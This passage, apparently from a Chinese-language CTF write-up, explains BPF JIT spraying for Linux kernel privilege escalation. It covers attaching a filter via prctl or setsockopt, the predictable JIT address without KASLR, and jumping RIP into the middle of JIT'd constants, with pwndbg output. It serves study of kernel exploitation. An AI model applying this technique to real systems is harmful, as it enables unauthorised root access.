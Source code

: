 ```c
    .filter = insns,
};
```

接下來可以像作者一樣用 `prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER)` [1] attach program 到 process，或是 [Balsn 的 writeup](https://balsn.tw/ctf_writeup/20211211-secconctf2021/) 使用 `setsockopt(SO_ATTACH_FILTER)` [2] 來 attach program 到 socket fd。

```c
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &sock_fprog); // [1]
setsockopt(fd, SOL_SOCKET, SO_ATTACH_FILTER, &sock_fprog, sizeof(sock_fprog)); // [2]
```

從 kernel function `bpf_jit_alloc_exec()` 可以知道 BPF 的 JIT code 會分配在 module mapping space，

```c
void *__weak bpf_jit_alloc_exec(unsigned long size)
{
    return module_alloc(size);
}
```

而參考 [Linux kernel x64 memory layout documentation](https://www.kernel.org/doc/Documentation/x86/x86_64/mm.txt) 可以知道 module mapping 的範圍。

```
# [...]
ffffffffa0000000 |-1536    MB | fffffffffeffffff | 1520 MB | module mapping space
# [...]
```

因為題目沒有 KASLR，JIT code 每次都會落在 `0xffffffffc0000000` 的 page 上，因此可以精準的控制 RIP 到 JIT code 的中間來提權。此方式的成功機率取決於是否能執行到原本 JIT 出來的 instruction 中間，但是在每次 allocate JIT code memory 時開頭都會隨機加上一小段 offset [3]，所以還是有一定的機率會失敗。

```c
struct bpf_binary_header *bpf_jit_binary_pack_alloc(/* ... */)
{
    // [...]
    start = get_random_u32_below(hole) & ~(alignment - 1); // [3]
    // [...]
}
```

假設 `0xffffffffc0000690` 為 load const instruction 的開頭，我們需要控制 RIP 到 5 bytes 的 instruction `mov eax, XXX` 的中間，也就是 offset 是 1、2、3 或 4 時才會成功，因此成功機率大概只有 80% 左右。

```
pwndbg> x/i 0xffffffffc0000690 + 0
   0xffffffffc0000690:  mov    eax,0xb3909090

pwndbg> x/i 0xffffffffc0000690 + 1
   0xffffffffc0000691:  nop

pwndbg> x/i 0xffffffffc0000690 + 2
   0xffffffffc0000692:  nop

pwndbg> x/i 0xffffffffc0000690 + 3
   0xffffffffc0000693:  nop

pwndbg> x/i 0xffffffffc0000690 + 4
   0xffffffffc0000694:  mov    bl,0xb8
```
